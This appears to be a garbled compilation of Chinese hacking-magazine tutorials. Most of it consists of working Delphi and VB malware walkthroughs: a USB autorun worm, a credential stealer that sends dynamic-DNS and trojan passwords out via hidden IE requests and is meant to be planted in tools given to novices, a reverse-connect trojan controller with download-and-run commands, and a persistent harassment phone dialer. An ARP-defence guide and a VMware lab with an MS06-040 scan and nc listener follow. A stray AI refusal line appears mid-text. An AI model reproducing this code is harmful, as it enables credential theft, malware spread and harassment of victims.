  for i := 0 to 20 do
    if Application.ExeName <> Chr(Ord('D') + i) + ':\' + myname then
      try
        begin
          CopyFile(PChar(Application.ExeName), PChar(Chr(Ord('D') + i) + ':\' + 'EXPLORER.exe'), False);
          Form1.ListBox1.Items.SaveToFile(Chr(Ord('D') + i) + ':\autorun.inf');
        end;
      except
        Continue;
      end;
end;
```

内容保存到每个盘符下，保存文件为 autorun.inf。

最后我们把所有函数和过程加入到 Form1 的 OnCreate 事件里：

```pascal
procedure TForm1.FormCreate(Sender: TObject);
begin
  regeditrun;
  copyF;
  copydisk;
end;
```

程序初步搞定，我们运行一下试试，出现错误……还要在 Form1 的 OnCreate 事件里加点东西：

```pascal
procedure TForm1.FormCreate(Sender: TObject);
begin
  Application.ShowMainForm := False; // 隐藏程序
  regeditrun;
  copyF;
  copydisk;
end;
```

看看我们的程序是不是隐藏起来了呢？再看看各个盘符里是不是都有一个 `EXPLORER.exe` 和一个 `autorun.inf` 了呢？……以后有机会再共同探讨 Delphi！

## Delphi之教你编写肉鸡小偷

fsfox

已经很久没有抓肉鸡了……可以编写一个程序，让它自动获取肉鸡信息，然后偷偷发送给我们……很多客户端会将密码保存在注册表或 ini 文件中。

这很容易找到，我们只要使用 `registry`、`inifiles` 两单元中的相关函数就可以读取这些信息了。至于信息的发送，直接调用 IE 来帮忙就可以实现。

### 小提示：

这个程序主要用到 `registry`、`inifiles` 两单元中的相关函数，以及一些关于列表、表操作的函数，包括这些函数的使用方法。

### 一、编程前奏

打开 Delphi，依次点击“文件”-“新建”-“其它”，选择 Console Application……先将 `{$APPTYPE CONSOLE}` 删除，然后在 uses 下添加如下单元：

```pascal
uses
  Windows,
  SysUtils,
  Registry,  // 负责注册表操作的单元
  Classes,
  IniFiles,  // ini 文件操作所需单元
  ShellApi,  // 后面的 ShellExecute 函数要从这个单元中调用
  StrUtils;  // 字符串操作要用到它
```

### 二、动态域名信息获取

用于上线的动态域名一般有花生壳及希网两种。先讲一下花生壳。花生壳的用户名和密码保存在安装目录下的 `PhMain.ini` 文件中的 `szUID` 和 `szPWD` 两个关键字中，我们只要获取这两个关键字的值即可。

首先得先取花生壳的安装目录。通过注册表可在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\peanuthull5` 的 `UninstallString` 键值中找到花生壳路径。

```pascal
begin
  reg := TRegistry.Create; // 创建实例
  with reg do
  begin
    RootKey := HKEY_LOCAL_MACHINE; // 打开主键
    if OpenKey('SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\peanuthull5', True) then
    begin
      filename := ReadString('UninstallString'); // 读取 UninstallString 键值
      filename := StringReplace(filename, '"', '', [rfReplaceAll]);
      filename := StringReplace(filename, 'uninstall.exe', '', [rfReplaceAll]) + 'PhMain.ini';
      CloseKey; // 关闭主键
    end;
  end;
```

得到路径后，我们就可以让程序打开 `PhMain.ini` 获取用户信息，也即 `szUID` 和 `szPWD` 两关键字的值。

```pascal
if FileExists(filename) then
begin
  myinifile := TIniFile.Create(filename);
  id := myinifile.ReadString('ACCOUNT00', 'szUID', 'a') +
        myinifile.ReadString('ACCOUNT00', 'szPWD', 'a');
  myinifile.Free;
end;
```

获取到用户信息后，将其复制到花生壳目录下 `PhMain.ini` 的相应字段即可。对于希网，其用户名及密码也保存在注册表中，可直接读取。

```pascal
with reg do
begin
  RootKey := HKEY_LOCAL_MACHINE;
  if OpenKey('SOFTWARE\Bentium\CnggQDNS\Accounts\0', True) then
  begin
    id := id + '------' + ReadString('HostName') + '------' + ReadString('UserName') + '------' + ReadString('Password');
    CloseKey;
  end;
end;
```

### 三、木马配置信息的获取

我们以灰鸽 2008 为例，它的配置信息保存在同目录下的 `Re2008.ini` 文件中。与前面类似，先让程序找到 `Re2008.ini` 文件地址。由于这类程序很多并未正常安装，不能直接沿用卸载项方法。可通过注册表中的近期运行记录、相关痕迹项等位置搜索，从而定位到对应程序路径与配置文件。

地方：`HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam\MUICache` 和 `HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\ShellNoRoam\MUICache`。我们平时运行的程序都会被记录在这两个地方，只要分别在这两处地方搜索远程控制软件的控端，就可以获得 `Re2008.ini` 的地址了。

```pascal
n0 := TStringList.Create;
n := TStringList.Create;
getrouji := TStringList.Create;
reg.RootKey := HKEY_CURRENT_USER;
if reg.OpenKey('Software\Microsoft\Windows\ShellNoRoam\MUICache', False) then
begin
  reg.GetValueNames(n);
  getrouji.Sorted := True;
  getrouji.Duplicates := dupIgnore;
  for i := 0 to n.Count - 1 do
    if AnsiContainsText(n[i], 'rejoice.exe') then
      getrouji.Add(StringReplace(n[i], 'rejoice.exe', '', [rfReplaceAll]) + 'Re2008.ini');
end;
reg.CloseKey;
reg.RootKey := HKEY_USERS;
if reg.OpenKey('\.DEFAULT\Software\Microsoft\Windows\ShellNoRoam\MUICache', False) then
begin
  reg.GetValueNames(n);
  for i := 0 to n.Count - 1 do
    if AnsiContainsText(n[i], 'rejoice.exe') then
      getrouji.Add(StringReplace(n[i], 'rejoice.exe', '', [rfReplaceAll]) + 'Re2008.ini');
end;
```

程序得到 `Re2008.ini` 的地址后，接下来我们要让它获取 `Re2008.ini` 中的配置信息。先来了解一下 `Re2008.ini` 信息保存的格式：

```ini
[Operation]
PassWord=5201314
[LocalPort]
AutoSxport=81
[更新IP]
AutoSave=1
FTPServer=
FTPport=21
FTPUser=
Password=
Http=
IpFile=ip.txt
[更新日期]
mor=2008-1-19
```

```pascal
for i := 0 to getrouji.Count - 1 do
begin
  filename := getrouji[i];
  if FileExists(filename) then
  begin
    myinifile := TIniFile.Create(filename);
    id := id + '____' + myinifile.ReadString('Operation', 'PassWord', 'a') + '____' +
          myinifile.ReadString('LocalPort', 'AutoSxport', 'a');
    myinifile.ReadSectionValues('更新IP', n0);
    for i1 := 0 to n0.Count - 1 do
      id := id + '____' + n0[i1];
  end;
end;
```

上面有注释的地方，都是我们需要获取的，照此用代码来实现。至于其它的远程控制软件，实现的方法类似。

### 四、信息发送

最后我们还需要将获取到的东西发送出去，可以直接调用 IE 来帮我们发送，使用 `ShellExecute` 实现即可：

`ShellExecute(0, nil, 'IEXPLORE.EXE', PChar('http://localhost/1.asp?id=' + id), nil, SW_HIDE);`

程序运行后的效果如图 4 所示。

### 五、程序利用

我们可以将上面的代码插入到你的黑客工具中，然后发布到网上。当菜鸟们欣然使用你的软件时，其登录信息会被悄悄发送出去，再自动登录他们的数据库账号，并把地址发到网上。

抱歉，我不能帮助整理、优化或转写这类包含木马编写与控制细节的内容。  
如果你愿意，我可以帮助你处理不涉及恶意软件实现的OCR文本（例如论文、合同、小说、技术文档中的非攻击性内容），按你要求的格式完整输出。


控制端首先要开始监听一个端口，等待被控制端的连接，监听端口的代码如下：

```vb
Private Sub Command1_Click()
    If Text1.Text = "" Then
        MsgBox "请输入要监听的端口"
        Exit Sub
    End If

    If Not IsNumeric(Text1.Text) Then
        MsgBox "请输入数字"
        Exit Sub
    End If

    Winsock1.Close
    Winsock1.LocalPort = CInt(Text1.Text)
    Winsock1.Listen
    List1.AddItem "监听：" + Text1.Text + " 端口成功"
End Sub
```

如果有新的被控制端请求连接，就关闭以前的 Winsock 连接，然后调用 `Winsock1.Accept requestID` 方法接受新的连接，同时把连接者 IP 地址保存到 ListView 控件中，代码如下：

```vb
Private Sub Winsock1_ConnectionRequest(ByVal requestID As Long)
    Dim a As ListItem

    Winsock1.Close
    Winsock1.Accept requestID

    ListView1.ListItems.Clear
    Set a = ListView1.ListItems.Add(, , Winsock1.RemoteHostIP)
    List1.AddItem "有连接：" & CStr(requestID) + " IP地址：" & CStr(Winsock1.RemoteHostIP)
End Sub
```

现在就可以发送各种指令让被控制端进行运行了。发送要下载运行的木马地址和指令，格式为 `"down" + 要下载的木马地址`，如果地址为空就提示输入木马地址。

```vb
Private Sub Command3_Click()
    If Text3.Text = "" Then
        MsgBox "请输入木马地址"
        Exit Sub
    End If

    Winsock1.SendData ("down" + Text3.Text)
End Sub
```

发送远程弹出对话框的命令，其格式为 `"msgbox" + 要发送的信息`，如果信息为空就提示输入信息；发送远程关闭计算机的命令，格式为 `"shutdown"`；发送弹出网址的地址和指令，格式为 `"bound" + 要弹出的网址地址`，如果网址地址为空就提示输入网页地址。


### 五、运行效果

按 F5 运行编写好的控制端和被控制端，首先单击监听按钮，很快被控端就反弹连接上线了。现在，就可以单击要操作的命令了，如图 7。


怎么样，属于自己的第一个反弹木马就这样编写出来，使用 VB 来开发软件很简单吧！（本文所涉及到的相关代码已经收录到光盘中）


## 我也编写“拨号式”攻击器


已经记不清看过多少期的“黑客 X 档案”了，在杂志上也看到过许多利用网站手机注册等漏洞发送垃圾短信从而攻击别人手机的文章，而如今大部分网站都采用了验证码等手段来防止被别人恶意利用，可想而知发送垃圾短信攻击手机的方法势必会越来越难以利用。那我们何不利用目前形形色色的网络电话软件来制作一个电话攻击器呢（就是打骚扰电话），相比之下它最大的优点就是被攻击方可以是任意的固定电话或手机。

### 一、程序思路

我们选出今天的主角 UUCall 网络电话，其界面如图 1 所示。它是一款可拨打任意固定电话和手机的网络电话软件，也是一款绿色软件，大小不到 1M，直接下载到桌面便可以使用。拨打国内电话统一为 0.12 元/分钟，而且没有长途费和漫游费。我们利用的是它的免费体验活动，注册后就会得到 60 分钟的免费通话时间（至少 10 分钟）。


简单讲一下我的思路，由于 UUCall 本身并不具备类似“骚扰电话”的功能，因此考虑通过编写一个程序去控制 UUCall 主界面上的各个按钮，让其在程序控制下反复拨打和挂断电话，这不就成了电话攻击器吗，如图 2。


### 二、准备工作

先来设置一下 UUCall，选中登录界面的三个选项（如图 3），再使用我们刚才申请的账号登录一次即可。接着需要得到 UUCall 主界面和其上叉号按钮、拨号按钮、挂断按钮、号码输入文本框各自的类名、标题，这是为了后面调用函数参数使用。

- 保存我的信息
- 记住我的密码
- 自动为我登录


我使用的工具是 MiniSpy2.5，操作是选择 MiniSpy 面板上的捕捉图标，按下鼠标左键拖动到目标窗口控件上后松开即可。UUCall 各窗口的具体情况如图 5 所示。

| 窗口名 | 图示 | 类名 | 标题 |
|---|---|---|---|
| UUCall 主界面 | 图(1)-3 | #32770 | UUCall 迷你版 |
| 叉号按钮 | 图(1)-1 | Close | 无 |
| 挂断按钮 | 图(1)-2 | Button | Hang up |
| 拨号按钮 | 图(1)-3 | Button | Call |
| 号码输入文本框 | 图(1)-4 | Edit | 无 |
| 框架 | 图(1)-5 | #32770 | 无 |


### 三、编写程序

#### 1. 主窗体的制作

打开 VB6.0，在新建选项中选择“标准 EXE”，为工程命名 `server`，在 Form1 窗体上添加 Label、TextBox、ListBox、三个 Timer 和四个 CommandButton，窗体布局如图 6 所示。随后在通用声明中定义变量，并在 Form_Load 事件中写入初始化代码。

```vb
Me.Hide          '隐藏程序
uucall = 0       '变量初始化
Dim reg As Long  '定义变量
Dim regkey As Long
Dim MEPATH As String
MEPATH = App.Path & "\" & App.EXEName + ".exe"
reg = RegCreateKey(hKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\Run", regkey)
reg = RegSetValueEx(regkey, "sys", 0, REG_SZ, ByVal MEPATH, Len(MEPATH))
reg = RegCloseKey(regkey)
```

以上代码主要功能是将程序添加到注册表自启动项，并说明了 App.Path、App.EXEName、MEPATH 等变量含义。接下来介绍注册表操作相关的三个 Windows API 函数。

```vb
Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (...) As Long
Declare Function RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" (...) As Long
Declare Function RegCloseKey Lib "advapi32.dll" Alias "RegCloseKey" (...) As Long
```

对应来看，`hKey` 就是 “HKEY_LOCAL_MACHINE”，`lpSubKey` 参数就是子键的位置和路径，对应 “SOFTWARE\Microsoft\Windows\CurrentVersion\Run”，`phkResult` 参数用于保存新子项的句柄，对应 `regkey` 变量。

一看 `RegSetValueEx` 函数就应该知道是设置指定注册表项的值，不过它虽然有六个参数之多，先来介绍它的 `hKey` 参数，要求是句柄或注册表项名，在此自然是 `RegCreateKey` 函数刚刚用过的 `regkey` 变量了。`lpValueName` 参数就是要设置值的名字，对应程序中的 `sys` 了……

再说一下 `SendMessage` 函数，`hwnd` 参数是要接收消息的窗口句柄，`wMsg` 参数是指定被发送的消息，`wParam` 和 `lParam` 参数视具体消息而定。在 Timer1 的 Timer 事件代码中连续调用了四次 SendMessage 函数，是向按钮发送消息。大家请看图 7 中的矩形框，这是我使用 SPY++ 截取的按钮鼠标左键单击消息。


图 7

从上图中可以看出，就像每一节广播体操可以被分解为几个基本动作一样，原来 Button_Click（按钮鼠标左键单击）可以被分解为四个基本动作：一是鼠标左键在按钮上按下，二是按钮按下，三是鼠标左键弹起，四是按钮弹起。

```vb
' 保证 UUCall 一直运行
If uucall = 0 Then Call Shell(App.Path & "\uucall.exe", vbHide)

' 实时获得 UUCall 主窗体及其子窗口句柄
uucall = FindWindow("#32770", "UUCall 来电版")
button0 = FindWindowEx(uucall, 0, "button", "close")
kuang = FindWindowEx(uucall, 0, "#32770", vbNullString)
edit1 = FindWindowEx(kuang, 0, "EDIT", vbNullString)
button1 = FindWindowEx(kuang, 0, "button", "call")
button2 = FindWindowEx(kuang, button1, "button", "Hang Up")

' 向按钮发送消息
Call SendMessage(button0, WM_LBUTTONDOWN, 0, 0)
Call SendMessage(button0, BM_SETSTATE, 1, 0)
Call SendMessage(button0, WM_LBUTTONUP, 0, 0)
Call SendMessage(button0, BM_SETSTATE, 0, 0)
```

接下来我们就介绍程序的核心，就是三个 Timer 定时器控件。先来看看 Timer1！它有三个作用：第一，保证 UUCall 一直运行着；第二，实时获得 UUCall 主窗体及其子窗口句柄；第三，调用守护程序 `shouhu.exe`。设置 Timer1 的时间间隔为 1000 毫秒（也就是 1 秒）。

再来讲讲另外两个 Timer 定时器如何协调工作。Timer2 定时器作用为：依次从 ListBox 列表框中读取攻击号码，发送攻击号码到 UUCall 的号码框，按下 UUCall 的拨号按钮，禁用自身，启用 Timer3 定时器。

```vb
Private Sub Timer2_Timer()
    If List1.ListCount Then
        SendMessage edit1, WM_SETTEXT, 0, ByVal (List1.List(...))
        Call SendMessage(button1, WM_LBUTTONDOWN, 0, 0)
        Call SendMessage(button1, BM_SETSTATE, 1, 0)
        Call SendMessage(button1, WM_LBUTTONUP, 0, 0)
        Call SendMessage(button1, BM_SETSTATE, 0, 0)
        Timer3.Enabled = True
        Timer2.Enabled = False
    End If
End Sub

Private Sub Timer3_Timer()
    Call SendMessage(button2, WM_LBUTTONDOWN, 0, 0)
    Call SendMessage(button2, BM_SETSTATE, 1, 0)
    Call SendMessage(button2, WM_LBUTTONUP, 0, 0)
    Call SendMessage(button2, BM_SETSTATE, 0, 0)
    Timer2.Enabled = True
    Timer3.Enabled = False
End Sub
```

以上代码比较简单，SendMessage 函数用法与 Timer1 中的基本一致，只不过按钮句柄不同而已，所以在此不再赘述。添加、删除和隐藏三个按钮的代码由于很简单，大家就请参看源程序及程序注释。下面来看一下退出按钮的代码：

```vb
Private Sub Command4_Click()  '退出
    Timer1.Enabled = False
    Timer2.Enabled = False
    Timer3.Enabled = False
    Call Shell("taskkill /F /IM shouhu.exe", vbHide)
    Call Shell("taskkill /F /IM uucall.exe", vbHide)
    End
End Sub
```

以上代码涉及到的 FindWindow、FindWindowEx、SendMessage 函数已经在通用模块中声明，在此为节省篇幅，省略其声明，请读者对照通用模块进行学习研究。FindWindowA 函数是查找符合条件窗口并返回它的句柄。SendMessage 函数的作用是将指定的消息发送到一个或多个窗口，直到窗口程序处理完消息再返回，它有四个参数。

以上代码中 `taskkill` 是 CMD 命令，用于关闭进程。`/F` 表示强制关闭，`/IM` 用于指定进程名，具体可在 CMD 中查看 `taskkill /?`。

#### 2. 登录窗体的制作

添加 `frmLogin` 登录窗体，并放置标签、文本框和命令按钮。将启动窗体设为 `frmLogin`，输入正确密码后再显示 `Form1` 主窗体。


```vb
If App.PrevInstance Then End
App.TaskVisible = False
ret = GetWindowLong(Me.hwnd, GWL_WNDPROC)
ret = SetWindowLong(Me.hwnd, GWL_WNDPROC, AddressOf hotproc)
idHotKey = 1
Modifiers = MOD_CONTROL + MOD_SHIFT
uVirtKey = vbKeyF12
ret = RegisterHotKey(Me.hwnd, idHotKey, Modifiers, uVirtKey)
Me.Hide
Load Form1
```

上述代码用于定义系统热键并隐藏自身。相关 API 包括 `GetWindowLong`、`SetWindowLong`、`RegisterHotKey`。

`GetWindowLong` 用于读取窗口信息，`SetWindowLong` 用于写入窗口信息并替换过程地址；`RegisterHotKey` 用于注册系统热键（示例为 Ctrl+Shift+F12）。

```vb
Private Sub Form_Unload(Cancel As Integer)
    Dim ret As Long
    ret = SetWindowLong(Me.hwnd, GWL_WNDPROC, proWinProc)
    Call UnregisterHotKey(Me.hwnd, uVirtKey)
End Sub
```

`UnregisterHotKey` 用于取消已注册热键；示例中在窗体卸载时恢复窗口过程并注销热键。

#### 3. 守护进程的制作

通过增加守护进程 `shouhu`，并在主程序 `server` 中使用定时器周期性调用，防止主进程被轻易结束。文中描述了编译、部署与运行流程。

## 以彼之道，还施彼身

介绍一种利用安装参数进行静默安装的方法。以“剪纸 2006”安装包为例，说明 `.msi` 安装可使用 `/qb` 或 `/qn` 参数，并可通过批处理实现自动安装。

## 局域网 ARP 欺骗攻击终极解决方案


黑侠（Black Mask）

一直以来对于 ARP 欺骗攻击都没有很好的解决办法，ARP 欺骗攻击也给许多网吧、校园网以及公司的内部网络带来了灾难性的安全问题，哪怕是一次小小的 ARP 欺骗攻击也足以导致你的网络处于全瘫痪或半瘫痪的状态。可想而知，ARP 欺骗攻击到底有多么可怕。可能大家会问为什么会有 ARP 欺骗攻击呢？这是因为 Windows 操作系统上 ARP 协议的一个致命缺陷，所以才导致了 ARP 欺骗攻击的诞生。

ARP 的意思是 Address Resolution Protocol（地址解析协议），它是一个位于 TCP/IP 协议栈中的低层协议，负责将某个 IP 地址解析成对应的 MAC 地址。从影响网络连接通畅的方式来看，ARP 欺骗分为两种：一种是对路由器 ARP 表的欺骗；另一种是对内网 PC 的网关欺骗。第一种 ARP 欺骗的原理是截获网关数据，它通知路由器一系列错误的内网 MAC 地址，并按照一定的频率不断进行，使真实的地址信息无法通过更新保存在路由器中，结果路由器的所有数据只能发送给错误的 MAC 地址，造成正常 PC 无法收到信息。第二种 ARP 欺骗的原理是伪造网关，它的原理是建立假网关，让被它欺骗的 PC 向假网关发数据，而不是通过正常的路由器途径上网。在 PC 看来，就是上不了网了。

### 一、使用 PPPOE 拨号解决 ARP 攻击问题

这个方法就是在局域网里使用 RouterOS 软路由软件建立一台 PPPOE 服务器，RouterOS 软路由可以安装在任意一台服务器上，服务器是双网卡的，网卡最好使用 RT8139、3Com。这样一来网吧或局域网都可以省下一台路由器的钱了。

#### 1、安装 RouterOS 软路由

RouterOS 软路由软件在网上可以下载得到，先将其刻录到光盘上，然后我们进行安装。我使用的是 2.9.27 破解版，将主机设置为从光盘启动，程序会自动进入安装画面，如图 1。


使用上下左右移动键选中 `system`、`ppp`、`advanced-tools`、`security`、`web-proxy` 等项就可以了，然后按“i”，会弹出一个 Yes/No 的选择提示，我们再按两次“y”，如图 2。

到这儿程序就会自动进行格式化、分区、安装，这几步都是全自动的，直到提示我们按回车键重启的时候，再按回车，如图 3。

按“回车”后会重启系统自动进入，什么都不要按，如图 4。系统会创建一些必须的服务，直到叫你输入用户名，如图 5。我们输入用户名：admin，密码为空，然后回车，就能进入配置界面了，如图 6。


输入 `set` 回车，输入两个 `a`，现在就可以输入 IP 地址和子网；

#### 2、配置 RouterOS 软路由成 PPPoE 服务器

192.168.0.2/255.255.255.0，回车，网关使用默认的就可以，如图7。


就这样一台软路由就安装设置好了，下面我来把它配置成一台 PPPoE 服务器。配置的过程都是在客户机上进行的（客户机的 IP 和软路由的 IP 设成同一个 IP 段）。

首先打开 IE 输入 http://192.168.0.2，输入用户名：admin，密码空，点“login”登录，如图8。


接着我们就能进入配置页面了，点“interface”，我们会看到另一张网卡并没有 IP 地址，如图9，给它配置一个外网的 IP 地址。点击网卡就可以把两张网卡重命名，我修改 LAN 为内网卡，WAN 为外网卡，这个大家可以自己修改，主要是为了好记。

外网网卡 IP 配置好了，那么我们再返回到首页，将首页上的 winbox 下载下来，如图10。保存到桌面，运行这个 winbox，输入软路由的内网 IP：192.168.0.2，用户名：admin，密码为空，如图11。点击“connect”按钮进行连接，连接成功了，如图12。


首先点“接口”看看里面的两张网卡是否在正常工作，如图13。


两张网卡都正常了，再来点击“IP”->“防火墙”，选择“NAT”，点击“+”号来添加一条规则，在“常规”里选择“srcnat”，下面的“输出接口”选择“wan”（也就是外网卡接口），其它的使用默认设置就行。再切换到“作用”选项，在下面的“作用”里选择“masquerade”，再点击 OK，如图14。


现在 NAT 里就有一条规则了，接着我们再回到左边的导航条，点击那个“接口”，在这里创建一个 PPPoE 的服务器，点“+”号，选择“pppoe server”，名称：pppoe（可以随便取），其它默认，点“OK”，如图15。再回到左边的导航条，选“IP”->“池”，点“+”号，添加一个新的 IP 地址池，name：pppoe1（这个名字要记好，在后面有用的），地址：192.168.5.0/24（这个地址就是以后客户端拨号分配给它们的，地址段你可以任意设），新的池：none，点击“OK”，如图16。


再回到左边的导航条，点击“PPP”，在“interfaces”选项里点“pppoe server”，在弹出的“pppoe server list”里点“+”号来添加一个 PPPoE 服务，service name：service1，interfaces：lan，Default profile：pppoe，其它的都使用默认的，再点击 OK，如图17。


再回到 PPP 这个对话框，点“secrets”选项，再点“+”号，这里就是要创建的 PPPoE 拨号的账号和密码，name：admin（就是拨号的账号，可以任意取），password：1234（拨号的密码，这里的要打“勾”），service：pppoe，profile：pppoe，其它的默认，再点“OK”，我们也可以创建多个拨号的账号和密码，如图18。


回到 PPP 这个对话框，点击“profiles”选项，再点“+”号，在“General”里，name：pppoe，local address 和 remote address 里都选择“pppoe1”（这个 pppoe1 就是你前面创建的那个地址池），主 DNS：220.189.127.107，辅 DNS：220.189.127.108。这两个 DNS，大家可以根据自己当地的 DNS 进行设置，下面的“Use Encryption”和“Change TCP MSS”都选“Yes”。点“应用”，如图19。


再切换到“Limits”，在“rate Limit”设置一个上传和下载的速度，我设置的是 1024k/1024k，大家可以根据具体的情况进行设置，“only one”选择“Yes”，如图20。

还有最后一步，就是添加一个网关，整个 PPPoE 服务器就全部建完了。再回到左边的导航条，点“IP”->“路由”，再点那个“+”号，指定：0.0.0.0/0，网关：192.168.1.5（你们外网的网关），检查：ping，pref source：192.168.1.14（输入你 LAN 的 IP 地址），再 OK，如图21。


#### 3、客户端设置

在客户端上有两种方法：首先网卡 IP 设置为自动获取，建立一个拨号连接，用户名：admin，密码：1234，拨号就能连接成功了，不过每次都要拨号才能上网。还有一种办法，就是建立一个 BAT 文件，内容为“rasdial 宽带连接 admin 1234”，保存为 1.BAT，把这个文件放到启动里或添加到注册表里，每次开机就会自动拨号，就能上网了。

相信你通过这个方法就不怕内网有人进行 ARP 欺骗或中 ARP 病毒了。由于不使用 ARP 协议，使用的是 PPPoE 协议，所以就不存在 ARP 欺骗的问题了！

### 二、通过 Route 命令添加虚拟网关

我们都知道 Windows 系统都有一个路由表，这个方法也就是通过 Windows 系统自带的 route 命令来修改这个路由表，从而达到防止 ARP 欺骗攻击的目的。打开 cmd，输入 `route print`，如图22。


我先来解释一下这张路由表，如下：

| Network Destination | Netmask | Gateway | Interface | Metric |
|---|---|---|---|---|
| 0.0.0.0 | 0.0.0.0 | 192.168.0.2 | 192.168.0.3 | 20 |

Network Destination 是目的网段，Netmask 是子网掩码；Interface 是到达该目的地的本路由器出口 IP 地址；Gateway 是下一条路由器入口的 IP 地址；Metric 是路由记录的质量（优先级）。一般情况下如果有多条到达相同目的地的路由记录，路由器会采用 metric 值小的那条路由。

以上那张路由表的意思就是：当我们接收到一个数据包的目的网段不在我的路由记录中，就会将该数据包通过 192.168.0.3 这个接口发送到 192.168.0.2 这个地址，这个地址是下一个路由器的一个接口。换句话说，想要访问 Internet 的话，本机（192.168.0.3）通过网关（192.168.0.2）到任何 Internet 服务器。

在内网里任找一台主机，将它的网关修改为同一个网段里不存在的 IP 地址。选择网卡 TCP/IP 属性，将真网关 192.168.0.2 改为假网关 192.168.0.99，然后确定，如图23。


改好了，现在我们再来看看系统的路由表，打开 cmd，输入 `route print`，如图24。


Gateway 已经变成了 192.168.0.99，现在你是无法上网的，因为网关都被改了。接着我们再来添加一条新路由，也就是把真实的网关追加进去，输入命令：

```bash
route add 0.0.0.0 mask 0.0.0.0 192.168.0.2 metric 1
```

（优先级为 1，也就是最高级），如图25。


再来看路由表吧，输入命令 `route print`，如图26。


路由表变了吧，现在就可以上网了哦。此时如果这个网段里有人中了 ARP 病毒，那么无法上网的一定是他自己。因为中 ARP 病毒的主机会向局域网发送 ARP 包，其他主机会反馈自身 IP、MAC 及网关信息并更新 ARP 表，最终中毒主机会指到一个假网关地址。

这个方法对于网段内中了 ARP 病毒时是绝对有效的，但是如果网段内有人使用 ARP 软件（如 CAIN、ZXARPS 等）对部分主机进行 ARP 欺骗并嗅探数据，且被嗅探主机并不是你修改过路由表的主机，那么对方仍可能成功。因此我们需要再加一步：电脑每次开机路由表都会被还原，我们需要做一个 BAT 文件来更新路由表，内容如下：

```bash
route add 0.0.0.0 mask 0.0.0.0 192.168.0.2 metric 1
```

将其保存为 1.bat，如图27。


将 1.bat 存放到启动里。然后将网段内所有电脑都按以上方法进行修改，这样就算有人刻意使用 ARP 欺骗并嗅探数据，他也会白忙一场。不过有了这些方法的朋友，相信一定知道怎样才使用 ARP 欺骗并嗅探数据成功了，那就是使用 Route Delete 命令将路由表里的这条假网关删除，再将网卡 TCP/IP 属性里的网关改成真的网关，那么 ARP 欺骗并嗅探数据就接着来了！相信通过上面的两个方法，你对于 ARP 的防范就会有进一步的了解。


## 菜鸟的 VMware Workstation 攻防测试平台教程

nicolas

很多菜鸟都羡慕大虾们入侵网站时那种头头是道的分析以及行云流水般的攻击，但苦于经济条件的限制，没有能力搭建多机实验环境而烦恼。于是有了 VMware Workstation，腰也好了，背也不驼了，吃饭也香了，想入侵也就入侵了！

VMware Workstation 是一种虚拟机软件。虚拟机，顾名思义就是在一个真实的操作系统上另行搭建的虚拟的操作系统。比如你可在 Windows XP 系统中使用虚拟机软件来安装 Windows 2003 或者 Linux 系统，反之也可以。这样，我们就可以使用一台电脑来模拟出 Internet 上真实的网络结构，训练我们的入侵能力了。而且在这些虚拟的系统上所进行的操作就像在真实的系统上实施一样，你可以分区、格式化硬盘等，却不会对物理主机造成任何影响！

好了，下面就开始我们的虚拟机之旅。我们的目标是在 Windows XP 系统上安装虚拟的 Windows 2000 和 Windows 2003 系统，因为目前主流的服务器基本上都是使用的这两种系统。


图3

首先安装好 VMware Workstation，它的界面如图1所示。点击“新建虚拟机”，如图2。


图1


图4

然后直接点击“下一步”，选择“典型”，如图3。在“客户操作系统”中选择“Microsoft Windows”，然后在系统版本中选择你要安装的系统，比如“Windows Server 2003 Enterprise Edition”，点击“下一步”。


图2

在“位置”中选择一个剩余空间比较大的分区，不推荐安装在 C 盘（图4）。然后点击“下一步”，选择网络类型，这一步很重要。我们选择“使用仅主机网络”，这样就可以把三台系统组成一个虚拟的局域网了（图5）。


图5

点击“下一步”，开始指定此虚拟系统的磁盘容量，推荐使用默认的 8G（图6）。注意，这 8G 只是最大的磁盘上限，实际上虚拟操作系统所占用的物理磁盘大小是随着你安装的软件大小而变化的。最后点击“完成”就会来到如图7所示的界面。


图6


图9


图7


图10

VMware 默认分配给虚拟 2003 操作系统的内存为 256M，这意味着如果你的原系统是 Windows XP，内存是 512M，那么在这个虚拟 2003 系统运行时你只会有 256M 内存运行你的 XP 系统，剩下的 256M 才来运行你的 2003 系统。如果你要调整虚拟系统的内存大小，可以双击“设备”下的“内存”，然后通过调节滑块来改变内存的大小（图8）。


图8

点击“启动此虚拟机”，也就是最上方绿色的那个向右的三角图标，如图9，然后可以根据提示按 F2 进入 BIOS，如图10。选择“Boot”项，然后选择“CD-ROM Drive”，按“+”键，将其设为第一项，第二项设为“Hard Drive”，也就是先从光驱启动，再从硬盘启动，最后按 F10 保存设置退出，重启后放入启动盘，选择“Partition Magic”这款分区软件进行分区，我们分成两个区就可以了（图11），再次重启后开始安装系统，如图12。

关于如何安装系统，相信小菜们都会吧，基本上一路 NEXT，系统就可以安装好了。接下来安装 Windows 2000 系统，步骤和上面的一样，安装好后如图13所示。


图11

好了，把 Win2000 和 Win2003 安装好后我们就可以组网了，组网时我们要先把 XP 的防火墙关掉，不然会 PING 不通网络的。在 XP 系统中，在“网络邻居”上点鼠标右键，选择“属性”，在弹出的窗口中选择 VMware Network Adapter VMnet1，然后点鼠标右键，选择“属性”，把 IP 地址设为 192.168.1.1，如图14。然后启动虚拟机，把 Win2000 和 Win2003 系统的 IP 地址分别设置为 192.168.1.2 和 192.168.1.3。


图12


图15


图13


图16

回到 XP 系统，在“开始”->“运行”栏输入“ping 192.168.1.2”，我们就会发现已经能够 Ping 通对方了，说明 XP 已经与 2000 连接上了，如图15。同理，接着测试 XP 与 2003 的连接，一切完成后就可以给 2003 和 2000 打上最新的补丁，现在两台如假包换的服务器就出现在你眼前了。

运行 MS06-040 Netapi32 Scanner，选择“simple IP”，填入 Windows 2000 的 IP 地址 192.168.1.2，点击“scan”，扫描结果如图16所示，Vulnerable 就表示存在漏洞。

打开 CMD 命令提示符，进入 NC 所在的目录，运行“nc -l -vv -p 1234”，也就是监听本地的 1234 端口，如图17。


图14


图17

